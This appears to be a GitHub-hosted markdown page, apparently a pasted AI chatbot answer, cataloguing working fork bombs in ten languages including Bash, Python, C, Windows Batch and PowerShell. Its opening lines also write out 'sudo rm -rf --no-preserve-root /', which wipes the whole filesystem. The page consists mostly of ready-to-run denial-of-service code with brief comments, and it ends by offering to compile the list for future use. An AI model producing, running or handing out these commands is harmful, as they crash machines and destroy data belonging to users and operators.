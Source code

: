 Common linux terminal/bash fork bomb

- :(){ :|:& };:
- sudo rm -rf --no-preserve-root /


### **Types of Fork Bombs**

A **fork bomb** is a type of denial-of-service (DoS) attack that continuously creates new processes, overwhelming system resources and causing a crash. Below are various types of fork bombs across different operating systems and programming languages.

---

### **1. Bash Fork Bomb** (Classic)

```bash
:(){ :|:& };:
```

- Most well-known fork bomb.
- Creates two child processes recursively.

---

### **2. Bash Variant with Comments**

```bash
:(){
  :|:&
}; :
```

- Same as the classic Bash fork bomb but formatted for readability.

---

### **3. Python Fork Bomb**

```python
import os
while True:
    os.fork()
```

- Uses `os.fork()` to create new processes indefinitely.
- Can quickly exhaust system resources.

---

### **4. Perl Fork Bomb**

```perl
fork while fork
```

- Creates child processes infinitely in Perl.

---

### **5. C Fork Bomb**

```c
#include <unistd.h>

int main() {
    while(1) {
        fork();
    }
    return 0;
}
```

- A compiled C program that keeps creating child processes.

---

### **6. Windows Batch Fork Bomb**

```batch
%0|%0
```

- Works in Windows by recursively calling the script itself.

---

### **7. PowerShell Fork Bomb**

```powershell
1..100000 | ForEach-Object {Start-Job -ScriptBlock {param($p) while ($true) { Start-Process powershell -ArgumentList "-NoExit" }} -ArgumentList $_}
```

- Spawns multiple PowerShell processes in an infinite loop.

---

### **8. Ruby Fork Bomb**

```ruby
fork { fork }
```

- Uses the `fork` method in Ruby to create infinite child processes.

---

### **9. PHP Fork Bomb**

```php
<?php
while (true) {
    pcntl_fork();
}
?>
```

- Uses PHP’s `pcntl_fork()` to spawn infinite processes.

---

### **10. Java Fork Bomb**

```java
public class ForkBomb {
    public static void main(String[] args) {
        while (true) {
            new Thread(() -> main(args)).start();
        }
    }
}
```

- Spawns new threads indefinitely, consuming CPU and RAM.

---

### **Databases or Resources on Fork Bombs**

There is **no official central database** that catalogs fork bombs, as they are mostly used for educational or malicious purposes. However, you can find information in:

1. **Wikipedia** – Search for “Fork bomb”
2. **ExploitDB** ([https://www.exploit-db.com/](https://www.exploit-db.com/)) – Some variations of fork bombs may be listed here.
3. **MITRE ATT&CK Framework** ([https://attack.mitre.org/](https://attack.mitre.org/)) – Check process exhaustion techniques.
4. **Security Forums** – Discussions on Stack Overflow, GitHub, and security blogs.
5. **Cybersecurity Books** – “Hacking: The Art of Exploitation” discusses process-based attacks.

Would you like a compiled document of these for future reference?
